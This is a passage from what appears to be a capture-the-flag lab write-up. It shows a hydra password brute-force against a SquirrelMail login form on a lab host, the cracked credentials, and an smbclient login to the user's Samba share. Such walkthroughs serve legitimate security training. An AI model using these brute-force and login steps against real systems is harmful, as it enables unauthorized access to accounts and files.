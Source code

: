 ```
$ hydra 10.10.32.183 http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -l milesdyson -P log1.txt

[80][http-post-form] host: 10.10.32.183   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid passwords found
```

We found that `milesdyson`'s password is `cyborg007haloterminator`. Let's log inside the application

![](/assets/img/skynet-squirrelmail-inbox.PNG) 

Start with the first mail. 

![](/assets/img/skynet-email-smb-password.PNG) 

Inside the comunication we are able to find `milesdyson`'s samba password. We can log into his shared folder

```
$ smbclient //10.10.32.183/milesdyson -U milesdyson

smb: \> ls
  .                                                             D        0  Tue Sep 17 10:05:47 2019
  ..                                                            D        0  Wed Sep 18 04:51:03 2019
  Improving Deep Neural Networks.pdf                            N  5743095  Tue Sep 17 10:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 10:05:14 2019
```